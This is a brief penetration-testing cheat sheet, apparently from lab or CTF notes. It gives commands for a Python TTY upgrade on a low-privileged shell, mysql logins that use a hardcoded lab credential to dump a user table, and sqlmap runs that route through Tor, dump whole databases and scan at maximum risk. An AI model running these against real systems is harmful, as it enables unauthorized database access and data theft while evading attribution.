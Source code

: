 When trying to gain access to SQL whilst having a low privileged shell, make sure to first upgrade the TTY with python if possible, this way error handling works a lot better.
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

### SQL from CLI ###
Start SQL session with username and password
`mysql -u username -p`
Start SQL session with username and password and specified host
`mysql -u username -p -h 127.0.0.1 -D databasename`

`.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"`
`.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon`
`.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E`
### SQLMap ####
Default scanning option
`sqlmap -u http://domain.com/login.php / forget_password.php `
Scanning using TOR
`sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5`
Dump all from the database:
`sqlmap -u "http://testsite.com/login.php" -a`
Do everything at all the highest levels with most network traffic:
`sqlmap -u http://monitorsthree.htb/forgot_password.php --forms --crawl=2 -a --risk=3 --level=5`

